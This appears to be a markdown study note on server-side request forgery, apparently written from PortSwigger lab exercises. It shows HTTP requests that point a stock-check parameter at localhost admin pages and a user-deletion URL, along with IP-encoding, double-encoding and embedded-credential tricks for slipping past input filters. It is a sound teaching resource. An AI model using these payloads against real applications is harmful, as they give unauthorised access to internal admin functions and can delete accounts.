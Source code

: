 Server side request forgery is a web application vulnerability that allows the server side aplication to make  HTTP requests to an arbitrary domain of the attacker's choosing.

#### SSRF attacks against the server itself

In an SSRF attack against the server itself, the attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface.
This will typically involve supplying a URL with a hostname like 127.0.0.1 (a reserved IP address that points to the loopback adapter) or localhost.
for example:
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
````
The above shopping application checks its stock status by requesting various back-end REST APIs so the request goes into the "stockApi" variable through frontend HTTP requests and 
by modiifng the "stockApi" variable into "http://localhost/admin"
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
````
Now if u can delete a user by "http://localhost/admin/delete?username=user1"

#### SSRF attacks against other back-end systems
Another type of trust relationship that often arises with server-side request forgery is where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses. Since the back-end systems are normally protected by the network topology, they often have a weaker security posture.
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://IP/admin
**To find the correct IP octate try passing it to intruder and then add the payload to the required octate(192.168.0.1 here .1) change the payload type to Numbers 1-255.**
````
#### SSRF with blacklist-based input filters
Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using various techniques:

Using an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
Registering your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
Obfuscating blocked strings using URL encoding or case variation.
example:-
Example from the line13 try changing the stockapi to http://127.1/admin and if that didnt work try using the Double-URL encoding for a in admin. 

#### SSRF with whitelist-based input filters
````
1.Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
2.Change the URL in the stockApi parameter to http://127.0.0.1/ and observe that the application is parsing the URL, 
extracting the hostname, and validating it against a whitelist.
3.Change the URL to http://username@stock.weliketoshop.net/ and observe that this is accepted, 
indicating that the URL parser supports embedded credentials.
4.Append a # to the username and observe that the URL is now rejected.
5.Double-URL encode the # to %2523 and observe the extremely suspicious "Internal Server Error" response, 
indicating that the server may have attempted to connect to "username".
6.Change the URL to http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos 
to access the admin interface and delete the target user.
````









